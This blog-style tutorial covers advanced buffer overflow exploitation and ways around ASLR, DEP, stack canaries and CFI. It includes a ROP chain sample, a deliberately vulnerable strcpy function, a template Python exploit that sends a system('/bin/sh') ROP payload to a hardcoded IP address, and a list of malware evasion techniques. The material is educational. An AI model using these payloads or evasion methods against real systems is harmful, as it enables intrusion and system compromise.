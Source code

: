 
# Advanced Buffer Overflow Techniques

*Published on January 15, 2025 by Husam Gameel (Oppenheim3r)*

Buffer overflow vulnerabilities remain one of the most critical security issues in modern software development. This post explores advanced techniques for exploiting buffer overflows and bypassing contemporary security mechanisms.

## Introduction

Buffer overflows occur when a program writes more data to a buffer than it can hold, potentially overwriting adjacent memory locations. While basic buffer overflow exploitation has been well-documented, modern systems implement various protection mechanisms that require sophisticated bypass techniques.

## Modern Protection Mechanisms

### Address Space Layout Randomization (ASLR)

ASLR randomizes the memory layout of processes, making it difficult for attackers to predict memory addresses. However, several techniques can be used to bypass ASLR:

- **Information Leaks**: Exploiting format string vulnerabilities or other information disclosure bugs
- **Partial Overwrites**: Overwriting only the least significant bytes of addresses
- **Brute Force**: In 32-bit systems, the entropy is limited enough for brute force attacks

### Data Execution Prevention (DEP/NX)

DEP marks memory pages as non-executable, preventing code execution in data segments. Common bypass techniques include:

- **Return-Oriented Programming (ROP)**: Chaining existing code gadgets
- **Jump-Oriented Programming (JOP)**: Using indirect jumps instead of returns
- **Return-to-libc**: Calling existing library functions

## Advanced Exploitation Techniques

### ROP Chain Construction

```python
#!/usr/bin/env python3

import struct

def p64(value):
    return struct.pack('<Q', value)

# Sample ROP chain for x64 Linux
rop_chain = b""
rop_chain += p64(0x400123)  # pop rdi; ret
rop_chain += p64(0x601000)  # address of "/bin/sh"
rop_chain += p64(0x400456)  # system() address
```

### Heap Exploitation

Modern heap exploitation techniques focus on:

- **Use-After-Free (UAF)**: Exploiting dangling pointers
- **Double-Free**: Corrupting heap metadata
- **Heap Spraying**: Filling heap with controlled data

## Mitigation Bypass Strategies

### Stack Canaries

Stack canaries are random values placed on the stack to detect buffer overflows:

```c
// Vulnerable function with stack canary
void vulnerable_function(char *input) {
    char buffer[256];
    // Stack canary is placed here by compiler
    strcpy(buffer, input);  // Vulnerable to overflow
    // Canary check happens here
}
```

Bypass techniques:
- **Canary Leaks**: Using format string bugs to leak canary values
- **Partial Overwrites**: Avoiding canary corruption
- **Brute Force**: In forking servers, canaries remain constant

### Control Flow Integrity (CFI)

CFI ensures that indirect calls and jumps target legitimate destinations:

- **Gadget Discovery**: Finding legitimate call targets
- **Shadow Stack**: Maintaining a separate call stack
- **Hardware Assistance**: Using Intel CET or ARM Pointer Authentication

## Practical Example

Here's a complete exploitation example:

```python
#!/usr/bin/env python3
import socket
import struct

def exploit():
    # Target information
    target_ip = "192.168.1.100"
    target_port = 9999
    
    # ROP gadgets (found using ROPgadget)
    pop_rdi = 0x400743
    pop_rsi_r15 = 0x400741
    system_addr = 0x400560
    bin_sh = 0x400800
    
    # Build payload
    payload = b"A" * 72  # Buffer overflow
    payload += struct.pack('<Q', pop_rdi)
    payload += struct.pack('<Q', bin_sh)
    payload += struct.pack('<Q', system_addr)
    
    # Send exploit
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    exploit()
```

## Bypassing Detection and Prevention

Attackers employ various strategies to evade detection and bypass prevention mechanisms:

### Evading Static Analysis

- **Code Obfuscation**: Techniques like packing, encryption, and anti-disassembly to hide malicious code.
- **Polymorphism and Metamorphism**: Changing code structure while retaining functionality to avoid signature-based detection.

### Evading Dynamic Analysis

- **Anti-Debugging/Anti-Analysis**: Detecting and thwarting analysis environments (e.g., virtual machines, debuggers, sandboxes).
- **Timing Attacks**: Exploiting time-based differences to bypass security checks or leak information.

### Bypassing Secure Coding Practices

- **Exploiting Edge Cases**: Finding vulnerabilities in seemingly secure code by testing unusual inputs or boundary conditions.
- **Chaining Vulnerabilities**: Combining multiple minor vulnerabilities to achieve a significant exploit, even if individual flaws are mitigated.

## Conclusion

Buffer overflow exploitation continues to evolve alongside offensive security. Understanding both attack and defense perspectives is crucial for cybersecurity professionals. While modern protections make exploitation more challenging, determined attackers can still find ways to bypass these mechanisms.

Key takeaways:
- Always assume multiple layers of protection
- Stay updated with latest bypass techniques
- Implement defense in depth
- Regular security testing is essential

## References

- [OWASP Buffer Overflow Guide](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Return-Oriented Programming: Systems, Languages, and Applications](https://hovav.net/ucsd/dist/rop.pdf)

